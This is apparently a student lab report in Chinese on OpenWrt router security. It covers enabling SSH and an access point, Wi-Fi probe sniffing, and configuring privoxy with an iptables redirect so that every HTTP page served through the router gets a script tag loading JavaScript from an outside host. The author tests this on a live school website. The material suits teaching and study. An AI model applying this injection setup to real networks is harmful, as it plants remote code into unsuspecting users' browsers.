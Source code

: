 # 实验二：OpenWrt安全实践

## 实验要求

1、在openwrt上安装软件，开通ssh，AP服务等；

2、在openwrt上安装auditord，配置相关文件，抓取ftp、telnet和无线网卡wifi信号嗅探的内容，发送到外置服务器，并接收。

3、在openwrt上安装privoxy，完成配置文件，实现对http协议的js代码注入功能。

4、整个过程都进行文档记录和截屏，完成实验文档。



## 设备详情

- 型号	Phicomm PSG1218 rev.A
- 架构	MediaTek MT7620A ver:2 eco:6
- 目标平台	ramips/mt7620
- 固件版本	OpenWrt 21.02.2 r16495-bf0c965af0 / LuCI openwrt-21.02 branch git-22.046.85957-59c3392
- 内核版本	5.4.179

## 实验流程

### 开通SSH服务

![](./img/ssh.png)



### 开通AP服务

在图形化界面（Luci）网络-无线，将两个分别为2.4GHZ和5GHZ的AP启用，如下图所示(SSID : OpenWrt)，重启路由器即可。

![](./img/AP.png)

在此之前，由于该路由器和主路由按lan-to-wan连接，所以需要把该路由器的地址从192.168.1.1改至192.168.3.1防止冲突。

下图是手机检测到这个AP：

![](./img/SSID.png)

### auditord嗅探

由于编译较为困难且错误频频，目前只实现了WIFI探针这一功能。

#### WIFI探针

![](./img/wifi.png)

### privoxy使用及JS嵌入

#### 修改配置文件

- ```
  vim /etc/config/privoxy
  
  config  privoxy 'privoxy'
          option  confdir         '/etc/privoxy'
          option  logdir          '/var/log'
          option  logfile         'privoxy.log'
          list    filterfile      'default.filter'
          list    filterfile      'user.filter'
          list    actionsfile     'match-all.action'
          list    actionsfile     'default.action'
          list    actionsfile     'user.action'
  #       list    listen_address  '127.0.0.1:8118'
          list    listen_address  '192.168.3.1:8118'
          option  toggle          '1'
          option  enable_remote_toggle    '1'
          option  enable_remote_http_toggle       '0'
          option  enable_edit_actions     '1'
          option  enforce_blocks          '0'
          option  buffer_limit            '4096'
          option  forwarded_connect_retries       '0'
          option  accept_intercepted_requests     '1'
          option  allow_cgi_request_crunching     '0'
          option  split_large_forms       '0'
          option  keep_alive_timeout      '300'
          option  socket_timeout          '300'
          list    permit_access           '192.168.3.0/24'
          option  debug_1         '0'
          option  debug_512       '1'
          option  debug_1024      '0'
          option  debug_4096      '1'
          option  debug_8192      '1'
  ```
  
- ```
  vim /etc/privoxy/user.filter
  # 添加JS代码
  FILTER: block-weeds
  s|</head>|<script    type="text/javascript" src="http://www.yswifi.com/ystest/js/floating.js"></script>$0|
  ```
  
- ```
  vim /etc/privoxy/user.action
  # 调用
  {+filter{block-weeds}}
  .*
  ```

#### 添加路由规则

- ```iptables -t nat -A PREROUTING -s 0.0.0.0/0.0.0.0 -p tcp --dport 80 -j REDIRECT --to-ports 8118```将所有目标地址为80端口的请求转到8118端口

#### 重启服务

- ```/etc/init.d/privoxy restart``` 

#### 互联网验证

- 凤凰网早已升级到https协议，而http网站数量稀少，故使用学校的教学平台：http://courses.cuc.edu.cn/user/courses
- ![](./img/JS.png)
- 完成JS注入。

## 参考资料

- [官方文档之SDK](https://openwrt.org/zh/docs/guide-developer/using_the_sdk)
- [官方文档之用户管理示例](https://openwrt.org/docs/guide-user/base-system/users#does_openwrt_support_managing_users_with_the_traditional_unixlinux_commands_such_as_useradd_passwd_sudo_and_su)
- [官方文档之交叉编译](https://openwrt.org/docs/guide-developer/toolchain/crosscompile)

